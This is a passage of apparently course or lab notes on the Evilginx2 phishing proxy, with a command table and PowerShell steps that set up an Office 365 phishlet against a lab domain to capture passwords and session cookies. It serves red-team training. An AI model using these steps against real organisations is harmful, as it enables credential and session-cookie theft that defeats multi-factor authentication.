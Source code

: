![Alt text](/assets/images/posts/cartp/12.png){: .align-center}


## Phishing - Evilginx2

[Evilginx2](https://github.com/kgretzky/evilginx2) is a tool designed for phishing attacks. It operates as a relay or man-in-the-middle between a legitimate website and the targeted user. Users interact with the authentic website, while Evilginx captures sensitive information such as usernames, passwords, and authentication cookies.

The tool utilizes **phishlets**, which are configuration files tailored for specific target domains. These phishlets, written in YAML format, define conditions such as hosts, filters, and the structure of authentication cookies and credentials.


| Command                                    | Description                                             |
|--------------------------------------------|---------------------------------------------------------|
| **evilginx2 -p C:\AzAD\Tools\evilginx2\phishlets** | Start Evilginx2 with the specified phishlets directory |
| **config domain studentx.corp**             | Configure the domain to be targeted by the phishing attack |
| **config ip 172.16.x.x**                    | Set the IP address for the Evilginx server              |
| **phishlets hostname o365 login.studentx.corp** | Use the template for Office 365 phishing attack with the specified hostname |
| **phishlets get-hosts o365**             | Verify the DNS entries for the Office 365 phishing attack |


```powershell
copy C:\studentx\.evilginx\crt\o365.crt C:\studentx\.evilginx\crt\login.studentx.corp
copy C:\studentx\.evilginx\crt\o365.key C:\studentx\.evilginx\crt\login.studentx.corp
```

```powershell
phishlets enable o365
```
